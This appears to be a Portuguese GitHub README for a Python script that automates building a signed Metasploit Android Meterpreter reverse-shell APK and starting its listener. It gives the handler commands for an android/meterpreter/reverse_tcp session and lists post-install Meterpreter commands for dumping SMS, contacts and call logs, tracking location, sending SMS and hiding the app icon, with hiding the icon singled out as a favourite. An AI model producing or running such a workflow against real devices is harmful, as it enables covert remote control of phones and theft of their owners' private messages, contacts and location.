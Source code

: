 # Script brunao.py

Este script foi desenvolvido para automatizar várias etapas de testes e manipulações no Metasploit Framework e no Android. Ele realiza as seguintes tarefas:

- Atualiza o Metasploit Framework
- Gera um payload para Android
- Descompila e recompila o APK gerado
- Atualiza a versão do APK para Android 13
- Assina e otimiza o APK
- Inicia o listener do Meterpreter para conexões

## Funcionalidades

### 1. Atualização do Metasploit Framework
O script começa atualizando o Metasploit Framework e seu Linux todo para garantir que você esteja usando a versão mais recente. Durante a execução, ele verifica a versão instalada e a atualiza automaticamente se necessário.

### 2. Geração do Payload Android
O script gera um payload para Android e o salva como um arquivo APK, pronto para ser utilizado em testes de segurança.

### 3. Descompilação do APK
O APK gerado é descompilado usando a ferramenta Apktool, permitindo que o conteúdo seja acessado e modificado.

### 4. Atualização para Android 13
Após a descompilação, o script atualiza a versão do APK para Android 13, garantindo que o arquivo gerado seja compatível com a versão mais recente do sistema operacional.

### 5. Recompilação e Assinatura do APK
O APK modificado é recompilado e assinado digitalmente usando um keystore, o que permite sua execução em dispositivos Android.

### 6. Início do Listener do Meterpreter
Por fim, o script inicia o listener do Meterpreter, configurando a porta de escuta e esperando a conexão do dispositivo.

## Requisitos

- **Python 3**: O script foi desenvolvido para Python 3.
- **Metasploit Framework**: O Metasploit Framework deve estar instalado no sistema para a execução do script.
- **Apktool**: Usado para descompilar e recompilar o APK.
- **Keystore**: Necessário para assinar o APK gerado.

## Como Usar

1. Clone este repositório ou baixe o arquivo `brunao.py`.
2. Certifique-se de que o Metasploit Framework, Apktool e o Python 3 estão corretamente instalados no seu sistema.
3. Execute o script com o seguinte comando:

    ```bash
    sudo python3 brunao.py -r
    ```

4. Durante a execução, o script pedirá algumas informações, como a porta de destino para o listener (LPORT).
5. Após a execução bem-sucedida, você terá o APK assinado e otimizado pronto para ser utilizado.

## Exemplos de Uso

- **Iniciar o script**:

    ```bash
    sudo python3 brunao.py -r
    ```
  <h3>Quando tudo tiver compilado vai pedir uma senha a senha é: password</h3>
  <h4>Se errar a senha tente de novo usando o ' sudo python3 brunao.py -r ' e tente copia a senha: <h2>password</h2></h4>

    O script vai iniciar o processo automaticamente e pedirá que você forneça as informações necessárias, como a porta (LPORT).

## Contribuições

## Sinta-se à vontade para contribuir com melhorias ou correções. Caso encontre problemas, por favor, abra uma issue no repositório.

<br>
----------------------------------------------//-------------------------------//-------------------------------------

## Comandos específicos para Android

- activity_start: Inicia uma atividade Android a partir de uma string Uri.

- check_root: Verifica se o dispositivo Android é root.

- dump_calllog: Obtém o histórico de chamadas.

- dump_contacts: Obtém a lista de contatos.

- dump_sms: Obtém as mensagens SMS.

- geolocate: Obtém a localização atual usando geolocalização.

<strong> (esse é bom) - hide_app_icon: Oculta o ícone do aplicativo do lançador.</strong>

- interval_collect: Gerencia a coleta de dados em intervalos.

- send_sms: Envia SMS do dispositivo alvo.

- sqlite_query: Consulta um banco de dados SQLite no armazenamento.

- wakelock: Habilita ou desabilita o Wakelock.

- wlan_geolocate: Obtém a localização usando informações de WLAN.


## Iniciar coleta de Wi-Fi:


Copiar código
interval_collect -a start -c wifi
Pausar a coleta de localização geográfica:


Copiar código
interval_collect -a pause -c geo
Exibir os dados coletados de torres de celular:


Copiar código
interval_collect -a dump -c cell


## (depois que instala o apk use sempre esse) Se você quiser iniciar o listener manualmente, execute o seguinte comando no terminal:


        msfconsole


## E, após carregar o Metasploit, configure o listener com o comando:


        use exploit/multi/handler
        set payload android/meterpreter/reverse_tcp
        set LHOST [IP_LOCAL]
        set LPORT [PORTA]
        exploit

        
Troque [IP_LOCAL] pelo seu IP local e [PORTA] pela porta que você configurou (como a porta 4444).

## Se quiser gerar um novo o apk(payload) apague os arquivos já existente como as pastas e apk's gerado

use: 
               
               
               sudo rm -rf Brunao_kyti
               
               sudo rm -rf brunao_kyti
               
               sudo rm -rf brunao_kyti.apk

               sudo rm -rf brunao_kyti_final.apk
               
               sudo rm -rf brunao_kyti_signed.apk


## Depois de gerar o apk instaler o brunao_kyti_final.apk, guarde e use o msfconsole. 

